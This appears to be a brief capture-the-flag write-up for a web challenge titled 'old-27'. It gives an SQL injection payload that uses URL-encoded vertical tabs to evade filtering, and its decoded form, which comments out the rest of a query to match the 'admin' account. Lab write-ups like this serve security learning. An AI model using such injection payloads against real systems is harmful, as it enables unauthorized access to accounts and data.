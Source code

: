 ```yaml
---
layout: default
title: old-27
---
```




we will insert this payload:
`0)||id%0blike%0b%27admin%27--%0b`

this is equivalent to this:
`0) or id like 'admin'-- `
